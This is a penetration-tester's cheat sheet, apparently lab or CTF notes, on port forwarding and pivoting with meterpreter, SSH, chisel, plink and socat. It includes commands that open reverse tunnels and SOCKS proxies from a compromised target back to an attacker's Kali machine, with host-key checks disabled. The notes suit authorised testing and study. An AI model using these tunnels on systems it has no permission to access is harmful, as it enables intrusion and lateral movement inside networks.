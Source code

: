# port forwarding

## meterpreter:

```bash
portfwd list
portfwd [add | delete] -l LOCAL_PORT -p TARGET_PORT -r TARGET_IP
portfwd flush # to remove all portforwardings
```

## Using ssh:

### Outgoing

```bash
# for connecting to remote port via localhost (-L) (outgoing)
ssh -L KALI-IP:KALI-PORT:localhost:TARGET-PORT TARGET-USER@TARGET-IP
```

### Incoming

#### authorized_keys file

```bash
from="IP",command="echo 'This account can only be used for Port Forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty <SSH-PUBLIC-key>
```

#### Command

```bash
# for allowing a connecting to your port from outside (incoming)
ssh -N -f -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -R KALI-IP:KALI-PORT:localhost:TARGET-PORT -i <id_rsa> KALI-USER@KALI-IP

# -N: not running commands
# -f: go to background
# UserKnownHostsFile=/dev/null & StrictHostKeyChecking=no will not ask kali password; not safe to enter password on target.
```

## [chisel](https://github.com/jpillora/chisel/releases/tag/v1.7.6)

```bash
# server on kali
chisel server -p 8000 --reverse

# client on target
chisel client KALI_IP:8000 R:KALI_LISTENING_PORT:TARGET_IP:TARGET_PORT_FORWARD [-v]
ex. chisel.exe client 10.10.16.161:9000 R:8989:127.0.0.1:8888
# chisel server is 10.10.16.161:9000
# any requests to kali:8989 ==> target:8888

# tunnel using chisel on kali:1080
chisel client <kali-ip>:8000 R:socks
```

* [0xdf's guide to using chisel](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)

## plink.exe

```bash
# /usr/share/windows-binaries/plink.exe
plink.exe kashz@<IP> -R <remote-port>:localhost:<local-port>
```

## socat re-route inside kali

```bash
# listen on 3306 from tun0 IP and route to localhost:3306
$ socat TCP-LISTEN:3306,fork,bind=10.10.16.161 TCP:127.0.0.1:3306
```

## Socket Check:

```bash
ss <flag>
```

| flag | description              |
| ---- | ------------------------ |
| -t   | TCP sockets              |
| -u   | UDP sockets              |
| -l   | Listening sockets only   |
| -p   | Process using the socket |
| -n   | No DNS resolution        |
